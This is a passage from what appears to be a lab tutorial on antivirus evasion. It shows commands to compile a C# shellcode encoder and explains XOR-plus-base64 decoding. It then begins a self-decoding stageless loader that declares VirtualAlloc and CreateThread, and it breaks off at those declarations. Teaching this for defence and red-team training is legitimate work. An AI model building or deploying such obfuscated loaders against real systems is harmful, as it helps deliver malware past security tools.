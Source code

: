 To compile and execute the encoder, we can use the following commands on the Windows machine:

- **Compiling and running our custom CSharp encoder**

```shell-session
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
        
```

##### Self-decoding Payload

Since we have an encoded payload, we need to adjust our code so that it  decodes the shellcode before executing it. To match the encoder, we will decode everything in the reverse order we encoded it, so we start by  decoding the base64 content and then continue by XORing the result with  the same key we used in the encoder. Here's the full payload code (you  can also get it in your Windows machine at `C:\Tools\CS Files\EncStageless.cs`):

<details open=""><summary><u><i>Full Payload Code (Click to read)</i><br>
</u>
</summary>
<pre style="font-size:14px" class=" language-csharp" tabindex="0"><code class=" language-csharp">
<span class="token keyword">using</span> <span class="token namespace">System</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Net</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Text</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Runtime<span class="token punctuation">.</span>InteropServices</span><span class="token punctuation">;</span>

<span class="token keyword">public</span> <span class="token keyword">class</span> <span class="token class-name">Program</span> <span class="token punctuation">{</span>
  <span class="token punctuation">[</span><span class="token attribute"><span class="token class-name">DllImport</span><span class="token attribute-arguments"><span class="token punctuation">(</span><span class="token string">"kernel32"</span><span class="token punctuation">)</span></span></span><span class="token punctuation">]</span>
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token keyword">extern</span> <span class="token return-type class-name">UInt32</span> <span class="token function">VirtualAlloc</span><span class="token punctuation">(</span><span class="token class-name">UInt32</span> lpStartAddr<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> size<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> flAllocationType<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> flProtect<span class="token punctuation">)</span><span class="token punctuation">;</span>

  <span class="token punctuation">[</span><span class="token attribute"><span class="token class-name">DllImport</span><span class="token attribute-arguments"><span class="token punctuation">(</span><span class="token string">"kernel32"</span><span class="token punctuation">)</span></span></span><span class="token punctuation">]</span>
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token keyword">extern</span> <span class="token return-type class-name">IntPtr</span> <span class="token function">CreateThread</span><span class="token punctuation">(</span><span class="token class-name">UInt32</span> lpThreadAttributes<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> dwStackSize<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> lpStartAddress<span class="token punctuation">,</span> <span class="token class-name">IntPtr</span> param<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> dwCreationFlags<span class="token punctuation">,</span> <span class="token keyword">ref</span> <span class="token class-name">UInt32</span> lpThreadId<span class="token punctuation">)</span><span class="token punctuation">;</span>
